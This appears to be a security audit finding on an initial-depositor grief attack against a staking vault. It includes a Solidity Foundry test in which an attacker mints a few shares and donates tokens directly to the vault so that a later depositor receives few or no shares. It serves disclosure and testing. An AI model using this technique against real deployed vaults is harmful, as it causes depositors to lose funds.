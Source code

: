 **Severity**

**Impact:** High

**Likelihood:** Low

**Description**

The initial deposit attack is largely mitigated due to the usage of virtual shares. However, the initial depositor grief attack is still possible, causing the first depositor to lose assets at a relatively low cost for the griefer.

```solidity
contract PoolSwap is Test {

    Staking staking;
    MockToken public token;
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function setUp() public {
        token = new MockToken("token", "t", 18);

        // deploy staking contract
        staking = new Staking(address(token), "XYZ Mastervault Token", "XYZ-MVT", true, alice);
    }

        function test_initial_deposit_grief() public {

        vm.startPrank(alice);
        token.mint(alice,11e18 + 10);

        uint256 initialAssetBalance = token.balanceOf(alice);
        console.log("attacker balance before : ");
        console.log(initialAssetBalance);

        token.approve(address(staking), 1e18);

        staking.mint(10, alice);

        token.transfer(address(staking), 11e18);

        vm.stopPrank();

        vm.startPrank(bob);

        token.mint(bob,10e18 + 10);
        token.approve(address(staking), 1e18);
        staking.deposit(1e18, bob);
        vm.stopPrank();

        uint256 bobShares = staking.balanceOf(bob);
        console.log("bob shares : ");
        console.log(bobShares);

        vm.stopPrank();

        vm.startPrank(alice);

        staking.redeem(staking.balanceOf(alice), alice, alice);
        uint256 afterAssetBalance = token.balanceOf(alice);
        console.log("attacker balance after : ");
        console.log(afterAssetBalance);
        vm.stopPrank();

    }
```